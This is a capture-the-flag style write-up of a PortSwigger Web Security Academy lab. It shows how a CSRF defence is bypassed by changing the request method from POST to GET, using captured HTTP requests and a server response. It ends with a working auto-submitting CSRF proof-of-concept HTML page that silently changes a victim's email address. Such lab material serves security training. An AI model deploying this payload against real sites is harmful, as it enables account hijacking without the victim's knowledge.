 #  Lab: CSRF where token validation depends on request method

- A `change email` functionality can be seen after logging to a user account.

![](Vulnerabilities/CSRF/img/lab-2-1.png)

- However, there is a CSRF defense mechanism in place that uses a `CSRF` token.

```
POST /my-account/change-email HTTP/1.1
Host: ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net
Cookie: session=ZIPfYwF7MJsmfDdPULKKtruSMGuYLmsn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net
Referer: https://ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

email=test%40test.com&csrf=rDCXCxyRFuxi8YZmMHPGFdgccydvEM0H
```

- Using a different request method successfully bypasses the defense mechanism for `CSRF`.

```
GET /my-account/change-email?email=root%40nehal.hacks&csrf=rDCXCxyRFuxi8YZmMHPGFdgccydvEM0H HTTP/1.1
Host: ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net
Cookie: session=ZIPfYwF7MJsmfDdPULKKtruSMGuYLmsn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net
Referer: https://ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

```
HTTP/1.1 302 Found
Location: /my-account
Connection: close
Content-Length: 0
```

- Exploit `html` - 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac4e1f1c1f7bba60c0d4325c00260009.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="root&#64;nehal&#46;hacks" />
      <input type="hidden" name="csrf" value="rDCXCxyRFuxi8YZmMHPGFdgccydvEM0H" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

